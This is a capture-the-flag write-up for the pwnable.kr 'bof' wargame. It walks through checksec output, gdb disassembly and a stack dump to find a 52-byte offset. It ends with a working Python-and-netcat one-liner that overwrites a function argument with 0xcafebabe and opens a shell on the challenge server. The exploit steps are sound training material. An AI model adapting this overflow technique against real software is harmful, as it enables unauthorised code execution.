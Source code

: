 The binary has the following security properties:
```
uzi@pwnpatrol:$ checksec --file bof
[*] '/home/uzi/challenges/wargames/pwnable.kr/toddlers_bottle/bof/bof'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

The 0xcafebabe comparison is at func+40.
```
(gdb) disassemble func
Dump of assembler code for function func:
0x5655562c <+0>:     push   ebp
0x5655562d <+1>:     mov    ebp,esp
0x5655562f <+3>:     sub    esp,0x48
0x56555632 <+6>:     mov    eax,gs:0x14
0x56555638 <+12>:    mov    DWORD PTR [ebp-0xc],eax
0x5655563b <+15>:    xor    eax,eax
0x5655563d <+17>:    mov    DWORD PTR [esp],0x78c
0x56555644 <+24>:    call   0x56555645 <func+25>
0x56555649 <+29>:    lea    eax,[ebp-0x2c]
0x5655564c <+32>:    mov    DWORD PTR [esp],eax
0x5655564f <+35>:    call   0x56555650 <func+36>
0x56555654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
```
Put a breakpoint there, run the application and provide 8 bytes junk data to stdin to see where the data will be located in the stack.
```
(gdb) b *func +40
Breakpoint 1 at 0x56555654
(gdb) r <<< AABBCCDD
Starting program: /home/uzi/challenges/wargames/pwnable.kr/toddlers_bottle/bof/bof <<< AABBCCDD
overflow me :

Breakpoint 1, 0x56555654 in func ()
```
Dump the stack frame. ```ebp-0x48``` because, func allocated 0x48 bytes in stack via ```sub esp,0x48```
```
(gdb) x/24wx $ebp-0x48
0xffffcf40:     0xffffcf5c      0x00000000      0x00000000      0x7e9b3000
0xffffcf50:     0x00000009      0xffffd185      0xf7e184a9      0x42424141
0xffffcf60:     0x44444343      0xf7fc0000      0x00000001      0x5655549d
0xffffcf70:     0xf7fc03fc      0x00000000      0x56556ff4      0x7e9b3000
0xffffcf80:     0x00000000      0xf7e185db      0xffffcfa8      0x5655569f
0xffffcf90:     0xdeadbeef      0x00000000      0x565556b9      0x00000000
```
As seen above, we can see the input data as 0x42424141 0x44444343.Hence we need 52 bytes till parameter to func.

Along with the script, challange can be solved with the following one-liner as well. After shell is opened, ```cat flag``` to get the flag
```
(python -c 'print("A"*52 + "\xbe\xba\xfe\xca")'; cat) | nc pwnable.kr 9000
```

